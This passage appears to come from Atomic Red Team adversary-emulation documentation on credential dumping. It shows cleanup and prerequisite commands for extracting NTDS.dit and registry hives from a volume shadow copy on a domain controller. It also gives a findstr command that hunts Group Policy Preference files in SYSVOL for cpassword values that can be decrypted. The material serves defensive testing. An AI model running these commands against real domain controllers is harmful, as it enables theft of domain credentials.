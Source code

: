 #### Cleanup Commands:
```
rm "#{extract_path}\ntds.dit"
rm "#{extract_path}\VSC_SYSTEM_HIVE"
rm "#{extract_path}\SYSTEM_HIVE"
```


#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT 
```
##### Get Prereq Commands:
```
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```
##### Description: Volume shadow copy must exist
##### Check Prereq Commands:
```
if not exist #{vsc_name} (exit /b 1) 
```
##### Get Prereq Commands:
```
echo Run "Invoke-AtomicTest T1003 -TestName 'Create Volume Shadow Copy with NTDS.dit'" to fulfuill this requirement
```
##### Description: Extract path must exist
##### Check Prereq Commands:
```
if not exist #{extract_path} (exit /b 1) 
```
##### Get Prereq Commands:
```
mkdir #{extract_path}
```




<br/>
<br/>

## Atomic Test #11 - GPP Passwords (findstr)
Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller. This value can be decrypted with gpp-decrypt on Kali Linux.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`! 
```
findstr /S cpassword %logonserver%\sysvol\*.xml
```
